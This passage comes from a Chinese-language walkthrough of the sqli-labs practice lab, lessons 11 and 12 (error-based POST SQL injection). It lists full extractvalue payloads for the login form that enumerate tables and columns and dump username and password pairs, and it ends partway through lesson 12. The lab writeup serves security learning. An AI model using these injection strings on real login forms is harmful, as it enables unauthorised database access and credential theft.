 4.对数据表进行输出

`uname=admin' and extractvalue(1,concat('~',(select group_concat(table_name)from information_schema.columns where table_schema='security')))--+&passwd=admin&submit=Submit`


[![0j1zm6.jpg](https://s1.ax1x.com/2020/10/18/0j1zm6.jpg)](https://imgchr.com/i/0j1zm6)

但是发现能显示出来的只有两个表，需要对其余的几个表进行爆破,利用SQL语句的 NOT IN限制

`uname=admin' and extractvalue(1,concat('~',(select group_concat(table_name)from information_schema.columns where table_schema='security' and table_name not in('emails'))))--+&passwd=admin&submit=Submit`

连续排除几个表发现数据库中所有的表为emails,referers,uagents还有users，要对users表进行爆破

5.`uname=admin' and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name in ('users')))) --+ &passwd=admin&submit=Submit`

只获取users表中的三个列名id,username,password

6.`uname=admin' and extractvalue(1,concat('~',(select group_concat('|',username,'~',password,'|') from users ))) --+ &passwd=admin&submit=Submit`

查询到部分用户的用户名和密码，如果想查看更多可以继续添加where 与 not in属性

`uname=admin' and extractvalue(1,concat('~',(select group_concat('|',username,'~',password,'|') from users where username not in('Dumb','Angelina') ))) --+ &passwd=admin&submit=Submit`

以此类推


***
# less 12(基于错误的双引号POST型字符变形的注入)

## 原理

与上一题相似，但是改成了双引号变形字符注入，值得注意的是，并不是把单引号换成双引号这么简单，查看源码找到注入点

发现uname和passwd都被用双引号括了起来，所以要想办法对其进行闭合并且接入新的语句



## 步骤

1.构造语句

`admin"  and extractvalue(1,concat('~',(select database())))  and " `

也是用报错的漏洞，将数据库信息输出

2.爆表名

`uname=admin"  and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())))  and "  &passwd=admin&submit=Submit `

3.爆列名

